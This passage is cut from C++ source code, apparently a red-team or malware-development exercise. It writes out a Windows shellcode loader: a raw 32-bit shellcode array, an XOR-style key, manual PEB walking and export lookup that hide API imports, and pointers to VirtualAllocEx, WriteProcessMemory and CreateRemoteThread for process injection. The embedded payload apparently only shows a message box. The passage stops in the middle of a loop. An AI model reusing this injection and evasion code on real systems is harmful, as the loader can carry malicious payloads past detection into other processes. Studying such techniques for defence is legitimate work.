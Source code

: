 ```cpp
    for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
        char* functionName = (char*)((BYTE*)hModule + pAddressOfNames[i]);
        if (strcmp(functionName, lpProcName) == 0) {
            return (PVOID)((BYTE*)hModule + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
        }
    }
    return NULL;
}

int main() {

    // code - 32 bit
    unsigned char code[] = { 0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31,
  0xc9, 0x64, 0x8b, 0x71, 0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b,
  0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b, 0x36, 0x38, 0x4f, 0x18, 0x75, 0xf3,
  0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24, 0x24, 0x8b, 0x45,
  0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a,
  0x20, 0x01, 0xeb, 0xe3, 0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31,
  0xff, 0x31, 0xc0, 0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xcf, 0x0d,
  0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c, 0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a,
  0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a, 0x1c, 0x01, 0xeb,
  0x8b, 0x04, 0x8b, 0x01, 0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2,
  0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68, 0x8e, 0x4e, 0x0e, 0xec,
  0x52, 0xe8, 0x9f, 0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0xef, 0xce,
  0xe0, 0x60, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89,
  0x45, 0x08, 0x68, 0x6c, 0x6c, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2e, 0x64,
  0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88, 0x5c, 0x24, 0x0a, 0x89,
  0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d,
  0xbc, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x44,
  0x65, 0x76, 0x58, 0x68, 0x20, 0x4d, 0x61, 0x6c, 0x68, 0x52, 0x54, 0x4f,
  0x3a, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x0b, 0x89, 0xe3, 0x68, 0x72, 0x21,
  0x58, 0x20, 0x68, 0x72, 0x61, 0x74, 0x6f, 0x68, 0x20, 0x4f, 0x70, 0x65,
  0x68, 0x54, 0x65, 0x61, 0x6d, 0x68, 0x52, 0x65, 0x64, 0x20, 0x68, 0x72,
  0x6f, 0x6d, 0x20, 0x68, 0x48, 0x69, 0x20, 0x66, 0x31, 0xc9, 0x88, 0x4c,
  0x24, 0x1a, 0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0,
  0x31, 0xc0, 0x50, 0xff, 0x55, 0x08 };
    unsigned int p_len = sizeof(code);
    const char* key = "offensivepanda";
    size_t k_len = strlen(key);

    PEB* peb;
    PLDR_DATA_TABLE_ENTRY module;
    LIST_ENTRY* lEntry;
    HMODULE k32baseAddr = NULL;
    GETPROCADDRESS ptrGetProcAddress = NULL;
    LOADLIBRARYA ptrLoadLibraryA = NULL;
    VAExType pVAEx;
    WPMType pWPM;
    CRTType pCRT;


    __asm {
        mov eax, fs: [0x30]
        mov peb, eax
    }


    lEntry = peb->Ldr->InLoadOrderModuleList.Flink;
    do {
        module = CONTAINING_RECORD(lEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        char baseDllName[256];
```